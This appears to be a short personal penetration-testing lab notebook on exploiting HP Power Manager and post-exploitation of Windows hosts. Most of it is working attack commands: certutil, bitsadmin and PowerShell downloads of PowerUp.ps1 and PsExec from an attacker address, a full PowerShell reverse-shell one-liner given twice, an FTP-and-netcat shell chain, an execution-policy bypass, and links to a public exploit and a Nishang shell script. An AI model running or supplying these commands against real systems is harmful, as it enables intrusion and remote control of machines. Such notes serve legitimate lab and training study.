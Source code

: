   

find HP power manager,

searchsploit HP power , nothing,

use:

hp power manager exploit

find [https://github.com/Muhammd/HP-Power-Manager/blob/master/hpm_exploit.py](https://github.com/Muhammd/HP-Power-Manager/blob/master/hpm_exploit.py)

- `certutil`: The certificate utility tool (on Windows).
- `urlcache`: Uses the URL cache functionality.
- `split`: Splits the file if needed (for large files).
- `f`: Forces the operation (overwrites if the file exists).
- `http://192.168.45.155:80/PowerUp.ps1`: The URL to download the file from.
- `PowerUp.ps1`: The name to save the downloaded file as.

```Bash
certutil -urlcache -split -f http://192.168.45.190:8000/PSTools/PsExec64.exe PsExec64.exe
```

```Bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.155',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

```Bash
bitsadmin /transfer myDownloadJob /download /priority normal http://192.168.45.187:8000/PowerUp.ps1 C:\Windows\system32\PowerUp.ps1
```

```Bash
powershell -Command "Invoke-WebRequest -Uri 'http://192.168.45.190:8000/PowerUp.ps1' -OutFile 'PowerUp.ps1'"
```

```Bash
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://192.168.45.190:8000/PowerUp.ps1','PowerUp.ps1')"
```

for better shell in windoes

```Bash
cmd.exe /c echo open 192.168.45.190 4444 > o & echo user 1 1 >> o & echo get nc.exe >> o & echo bye >> o & ftp -n -s:o & nc.exe -lvp 4444-e cmd.exe
```

```Bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.190',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

how to use PowerUp.ps1

```Bash
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

how to use winpeas.ps1

```Bash
powershell -ExecutionPolicy Bypass -File winpeas.ps1
```

```Bash
https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```